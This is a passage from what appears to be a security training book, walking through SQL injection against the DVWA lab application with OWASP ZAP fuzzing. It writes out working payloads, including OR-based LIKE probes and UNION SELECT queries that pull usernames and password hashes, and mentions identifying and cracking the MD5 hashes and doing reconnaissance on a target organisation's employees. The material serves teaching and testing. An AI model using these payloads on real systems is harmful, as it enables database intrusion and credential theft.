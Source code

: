 G> See where Zap used a union query, but the response said "The used SELECT statements have a different number of columns". This means that if we use the correct number of columns we will have success.  
G>
G> In Request tab, select Input Parameter -> right click and select Fuzz -> Payloads -> Add -> Select File Fuzzers from "Type" dropdown. Then select jbrofuzz->SQL Injection->SQL Injection -> Add -> OK -> Start Fuzzer
G>
G> Notice the `x' OR full_name LIKE '%bob%` in the Fuzzer tab?
G>
G> Then try the following in DVWA input:
G>
G> `x' OR full_name LIKE '%bob%`  
G> Output: Tells us we are in a `WHERE` clause, and I had an unknown column name.  
G> Thanks, MySQL error reporting!
G>
G> Try the following queries:  
G> `x' OR first_name LIKE '%bob%`     # This works  
G> `x' OR last_name LIKE '%smith%`    # This works  
G> `x' OR first_name LIKE '%`         # And as expected, we get what we think are all users.
G>
G> The recon stage may tell us a lot about naming conventions, and more. Once you know who the target organisation's employees are:  
G> Search stackoverflow, github, etc. for tidbits. Also [gitrob](https://github.com/michenriksen/gitrob)  
G> As we try different things, we learn more about naming conventions.  
G> You may also be able to find out about the target organisation's naming conventions by looking around the Internet. Github, Bitbucket, Stackoverflow and many other sites usually yield useful information.
G>
G> `x' OR user LIKE '%`               # This works  

{icon=bomb}
G> I thought the query on the server looked something like this:  
G> `SELECT ID, first_name, last_name FROM users WHERE ID = ''`
G>
G> Time to work out what the table name is.
G>
G> Let's try users. I'm thinking that the full query will look like:  
G> `SELECT ID, first_name, last_name FROM users WHERE ID = '1' UNION SELECT ID, first_name, last_name FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT ID, first_name, last_name FROM users WHERE first_name LIKE '%`  
G> Output: Unknown column 'ID'  
G> Let's fix that:  
G> `1' UNION SELECT user_id, first_name, last_name FROM users WHERE first_name LIKE '%`  
G> Output: "The used SELECT statements have a different number of columns"  
G> This told me that the query on the server was slightly different than what I thought. My revised guess of the full query:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT first_name, last_name FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT first_name, last_name FROM users WHERE first_name LIKE '%`
G>
G> Now for the passwords:  
G> Full server query guess:  
G> `SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT first_name, password FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT first_name, password FROM users WHERE first_name LIKE '%`
G>
G> Let's determine the hash type with hash-identifier. Just run the tool, and feed the hash to it. It will tell you that it is most likely a simple MD5, which is a one-way hashing function with no key derivation. It is so very easy to crack.